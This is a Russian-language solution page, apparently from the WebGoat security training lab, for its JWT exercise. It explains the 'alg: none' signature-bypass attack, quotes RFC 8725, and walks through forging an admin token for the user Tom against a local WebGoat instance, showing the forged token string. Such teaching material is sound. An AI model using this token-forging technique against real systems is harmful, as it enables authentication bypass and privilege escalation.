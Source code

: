 === Решение

Идея этого назначения заключается в том, что вы можете манипулировать токеном, что может привести к тому, что сервер будет интерпретировать токен по-другому. В начале, когда появились библиотеки JWT, они реализовали спецификацию буквально, то есть библиотека брала алгоритм, указанный внутри заголовка, и пыталась с ним работать.

[Цитата, https://tools.ietf.org/html/rfc8725#section-2.1]
____
Подписанные JSON Web Tokens содержат явное указание на
алгоритм подписи в виде параметра заголовка «alg» для обеспечения
криптографической гибкости. Это, в сочетании с недостатками дизайна в
некоторых библиотеках и приложениях, привело к нескольким атакам:

* Алгоритм может быть изменен на «none» злоумышленником, и некоторые
библиотеки будут доверять этому значению и «проверять» JWT без
проверки какой-либо подписи.

* Значение параметра «RS256» (RSA, 2048 бит) может быть изменено на «HS256» (HMAC, SHA-256), и некоторые библиотеки будут пытаться проверить
подпись с помощью HMAC-SHA256 и открытого ключа RSA в качестве
общего секрета HMAC (см. [McLean] и [CVE-2015-9235]).

Для смягчения последствий см. Разделы 3.1 и 3.2.
____

По сути, библиотеки просто анализировали токен, который им дали, не проверяя, какая криптографическая операция использовалась при создании токена.

==== Решение

Во-первых, обратите внимание, что мы вошли в систему как `Гость`, поэтому сначала выберите другого пользователя, например: Tom.
Пользователю Тому разрешено голосовать, как вы видите, но он не может сбросить голоса. Если посмотреть на запрос, то в ответе будет возвращен `access_token`:

[source]
----
GET http://localhost:8080/WebGoat/JWT/votings/login?user=Tom HTTP/1.1

access_token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2MDgxMjg1NjYsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.rTSX6PSXqUoGUvQQDBiqX0re2BSt7s2-X6FPf34Qly9SMpqIUSP8jykedJbjOBNlM3_CTjgk1SvUv48Pz8zIzA
----

Расшифровка токена дает:

[source]
----
{
  "alg": "HS512"
}
{
  "iat": 1608128566,
  "admin": "false",
  "user": "Tom"
}
----

Мы можем изменить утверждение `admin` на `false`, но тогда подпись станет недействительной. Как мы можем получить действительную подпись?
Глядя на https://tools.ietf.org/html/rfc7519#section-6.1[Спецификация RFC] `alg: none` является допустимым выбором и дает незащищенный JWT.
Давайте изменим наш токен:

[source]
----
headers:

{
  "alg": "none"
}

claims:

{
  "iat": 1608128566,
  "admin": "true",
  "user": "Tom"
}
----

Если мы используем WebWolf для создания нашего токена, мы получим:

[source]
----
eyJhbGciOiJub25lIn0.ew0KICAiYWRtaW4iIDogInRydWUiLA0KICAiaWF0IiA6IDE2MDgxMjg1NjYsDQogICJ1c2VyIiA6ICJUb20iDQp9
----

Теперь мы можем заменить токен в cookie и выполнить сброс еще раз. Одна вещь, на которую следует обратить внимание, это добавление `.` в конце, иначе токен недействителен.

== Ссылки

Для получения дополнительной информации посмотрите следующее видео:

video::wt3UixCiPfo[youtube, height=480, width=100%]
